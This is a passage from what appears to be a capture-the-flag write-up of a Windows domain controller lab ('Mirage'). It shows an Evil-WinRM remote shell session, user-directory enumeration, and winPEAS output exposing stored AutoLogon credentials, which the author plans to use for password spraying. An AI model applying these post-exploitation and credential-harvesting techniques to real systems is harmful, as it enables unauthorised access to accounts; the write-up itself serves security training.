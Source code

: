 ```sh


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/25/2025   2:54 PM                Administrator
d-----         5/23/2025   3:27 PM                david.jjackson
d-----          5/2/2025   2:00 AM                Dev_Account_A
d-----         5/25/2025  11:03 AM                mark.bbond
d-----          7/4/2025   1:01 PM                nathan.aadam
d-r---          5/1/2025  12:31 AM                Public
```

There's no other interesting functionality in Bloodhound that we see here, and no interesting access to files, shares, or services. We'll blast some winpeas & chill:

```sh
   ...
   Computer Name           :   DC01
   User Name               :   svc_mirage
   User Id                 :   2604
   Is Enabled              :   False
   User Type               :   User
   Comment                 :   Old service account migrated by contractors
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   5/22/2025 1:37:45 PM
   ...
   ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  MIRAGE
    DefaultUserName               :  mark.bbond
    DefaultPassword               :  MARKBONDPASS
```
Seems legit, let's add it and keep spraying
